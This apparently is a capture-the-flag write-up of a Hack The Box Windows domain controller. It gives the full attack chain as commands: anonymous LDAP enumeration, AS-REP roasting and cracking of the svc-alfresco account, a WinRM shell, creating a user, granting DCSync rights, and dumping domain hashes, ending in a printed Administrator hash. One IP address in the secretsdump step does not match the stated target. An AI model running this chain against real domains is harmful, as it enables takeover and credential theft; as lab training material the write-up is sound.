






Target IP: 10.129.16.182
Enumeration
Port Scanning
The initial scan reveals the standard Active Directory service set (DNS, Kerberos, LDAP, SMB) confirming the target is a Windows domain controller.

LDAP Enumeration
Anonymous LDAP binds are allowed, enabling enumeration of users, computers, and privileged groups without credentials.

ldapsearch -x -H ldap://10.129.16.182 -b "CN=Users,DC=htb,DC=local"
ldapsearch -x -H ldap://10.129.16.182 -b "CN=Computers,DC=htb,DC=local"
ldapsearch -x -H ldap://10.129.16.182 -b "CN=Domain Admins,CN=Users,DC=htb,DC=local"
ldapsearch -x -H ldap://10.129.16.182 -b "CN=Domain Users,CN=Users,DC=htb,DC=local"
ldapsearch -x -H ldap://10.129.16.182 -b "CN=Enterprise Admins,CN=Users,DC=htb,DC=local"
ldapsearch -x -H ldap://10.129.16.182 -b "CN=Administrators,CN=Builtin,DC=htb,DC=local"
ldapsearch -x -H ldap://10.129.16.182 -b "CN=Remote Desktop Users,CN=Builtin,DC=htb,DC=local"
A faster and more readable alternative is windapsearch, which automates much of this enumeration.



This enumeration reveals an uncommon service account, svc-alfresco, located in the Service Accounts OU. The account has Kerberos pre-authentication disabled, making it vulnerable to AS-REP Roasting.

Foothold
The AS-REP hash is captured and cracked offline using the rockyou wordlist:
hashcat -m 18200 hash.hash /usr/share/wordlists/rockyou.txt --force
Credentials obtained:
- User:
svc-alfresco - Password:
s3rvice
These credentials provide a shell via WinRM:
evil-winrm -i 10.129.16.182 -u svc-alfresco -p s3rvice
Privilege Escalation
Further enumeration reveals that the Exchange Windows Permissions group holds WriteDACL rights over the domain object. Since svc-alfresco is a member of Account Operators, it can create a new domain user and add that user to the Exchange Windows Permissions group — effectively granting DCSync rights.
net user john abc123! /add /domain
net group "Exchange Windows Permissions" john /add
net localgroup "Remote Management Users" john /add
Using PowerView, the newly created john account (now part of Exchange Windows Permissions) is granted DCSync rights directly:
$pass = convertto-securestring 'abc123!' -asplain -force
$cred = new-object system.management.automation.pscredential('htb\john', $pass)
Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync
With DCSync rights in place, all domain password hashes can be dumped remotely:
impacket-secretsdump htb/john@10.129.16.204
Result:
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
This hash can be used directly for a Pass-the-Hash attack to gain full administrative access to the domain controller.